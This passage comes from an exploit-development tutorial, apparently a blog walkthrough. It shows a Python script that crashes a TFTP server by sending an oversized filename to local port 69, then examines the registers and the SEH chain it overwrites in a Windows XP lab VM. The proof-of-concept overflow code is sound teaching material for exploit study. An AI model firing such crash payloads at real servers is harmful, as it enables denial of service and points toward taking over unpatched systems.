 Well thats roughly how it SHOULD work. But there is one other thing you will see further along that will prevent this from working normally. See if you can't figure it out ;)



Our Base Exploit



```python
import socket
host = "127.0.0.1"
port = 69
filename = "\x41" * 2000
mode = "netascii"
data = "\x00\x02" + filename  + "\0" + mode + "\0"
handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

Some things to note here are that we use the `SOCK_DGRAM` for UDP mode in this case. Also we use handler.sendto rather than handler.send. Again these are differences in using UDP in Python compared to TCP.

\\0/ Yay networking. Now that that's sorted out lets try testing things out.

Our first test

First though we need to make sure we load the program and specify the -v option as a parameter or else the program won't run correctly.


[![](https://4.bp.blogspot.com/-FFDo0FUIvFI/UK5U9M76qCI/AAAAAAAAAEc/HGg8udoXlRk/s0/Selection_017.png)](https://4.bp.blogspot.com/-FFDo0FUIvFI/UK5U9M76qCI/AAAAAAAAAEc/HGg8udoXlRk/s0/Selection_017.png)



And now we have our server started:


[![](https://1.bp.blogspot.com/-oOf_aGjjJjk/UK5VzIa6bFI/AAAAAAAAAEk/LK4Jyv3lMIM/s0/Selection_020.png)](https://1.bp.blogspot.com/-oOf_aGjjJjk/UK5VzIa6bFI/AAAAAAAAAEk/LK4Jyv3lMIM/s0/Selection_020.png)



Lets send the exploit:


[![](https://4.bp.blogspot.com/-f6PFNGeoleU/UK5WYE2uKQI/AAAAAAAAAEs/8RoBbC6Yb3Q/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_021.png)](https://4.bp.blogspot.com/-f6PFNGeoleU/UK5WYE2uKQI/AAAAAAAAAEs/8RoBbC6Yb3Q/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_021.png)


Ok so we get an access violation when writing to `0x00230000`. Looking at our registers we notice the following:


*   ECX appears to be overwritten with some of our A's.
*   The stack appears to point to multiple different sections within our A's.

More importantly if we look at the SEH chain we see the following:


